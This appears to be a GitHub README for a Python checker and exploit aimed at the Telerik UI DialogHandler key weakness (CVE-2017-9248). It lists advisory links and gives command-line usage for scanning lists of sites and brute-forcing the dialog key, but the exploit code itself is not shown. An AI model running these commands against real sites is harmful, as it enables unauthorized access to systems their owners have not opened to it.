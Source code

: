 # Telerik UI for ASP.NET AJAX DialogHandler Dialog cracker and site vulnerability checker with reverse ip lookup

![Language](http://img.shields.io/:language-PYTHON-red.svg?style=flat-square) ![License](http://img.shields.io/:license-GPL-blue.svg?style=flat-square) ![CVE](http://img.shields.io/:CVE-2017_9248-blue.svg?style=flat-square)


NIST:       https://nvd.nist.gov/vuln/detail/CVE-2017-9248 <br />
Exploit-db: https://www.exploit-db.com/exploits/43873 <br />
Telerik:    https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness <br />
Tenable:    https://www.tenable.com/cve/CVE-2017-9248 <br />
Github:     https://github.com/bao7uo/dp_crypto <br />


Dependencies:
```
python3
```

Python3 libraries:
```
requests
```


Usage of checker:
```
python3 checker.py i http://site.com
python3 checker.py f sites.txt
```

Usage of exploit:
```
python3 exploit.py -k http://a.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9
python3 exploit.py -k http://a.com/Telerik.Web.UI.DialogHandler.aspx 48 all 12
```
